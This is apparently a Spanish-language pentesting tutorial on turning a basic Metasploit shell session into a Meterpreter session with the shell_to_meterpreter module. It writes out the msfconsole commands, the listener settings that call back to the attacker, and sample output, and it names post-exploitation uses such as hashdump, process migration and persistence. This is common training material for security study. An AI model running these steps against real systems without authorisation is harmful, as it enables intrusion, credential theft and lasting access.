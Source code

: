 # De Shell Normal a Session Meterpreter con `multi/manage/shell_to_meterpreter`

## ¿Qué es una shell "normal"?

Una **shell normal** en Metasploit es una sesión de línea de comandos básica, que no tiene las capacidades avanzadas que ofrece una sesión **Meterpreter**.

Ejemplo de shell básica:

```
C:\Users\victima> whoami
```

Aunque útil, este tipo de acceso es limitado para acciones de post-explotación.

---

## ¿Qué es `multi/manage/shell_to_meterpreter`?

Es un módulo de Metasploit que permite **convertir una sesión de shell estándar** en una sesión **Meterpreter**, aprovechando que ya tienes ejecución de comandos en la máquina víctima.

Este módulo **lanza un payload Meterpreter dentro de la sesión existente**, lo que te da acceso a funcionalidades mucho más completas.

---

## Requisitos

- Tener una **sesión de tipo shell activa** en `msfconsole`.
- Tener configurado un **listener** para recibir la nueva sesión Meterpreter.

---

## Paso a paso

### 1. Verifica tus sesiones

```bash
sessions
```

Busca una sesión tipo "shell", por ejemplo:

```
[*] Active sessions
  Id  Type   Information  Connection
  1   shell  user@host     10.10.14.23:4444 -> 10.10.10.10:1234
```

---

### 2. Usa el módulo `shell_to_meterpreter`

```bash
use multi/manage/shell_to_meterpreter
```

---

### 3. Configura las opciones

```bash
set SESSION 1         # (ID de la sesión shell)
set LHOST <tu_ip>     # (IP del atacante)
set LPORT <puerto>    # (Puerto para recibir la sesión Meterpreter)
```

---

### 4. Ejecuta el módulo

```bash
run
```

---

### 5. Espera la conexión

Si todo funciona correctamente, deberías ver algo como:

```
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Sending stage ...
[*] Meterpreter session 2 opened
```

Verifica con:

```bash
sessions
```

Y verás una nueva sesión Meterpreter activa.

---

## ¿Por qué es útil?

- **Post-explotación avanzada:** te permite acceder a funcionalidades como `getuid`, `migrate`, `hashdump`, `screenshare`, etc.
- **Estabilidad y control:** Meterpreter es más estable que muchas shells básicas.
- **Migración y persistencia:** puedes inyectar el payload en procesos persistentes.

---

## Consideraciones

- El módulo puede fallar si el sistema objetivo tiene antivirus o EDR activos.
- Debes tener privilegios suficientes para lanzar el payload.

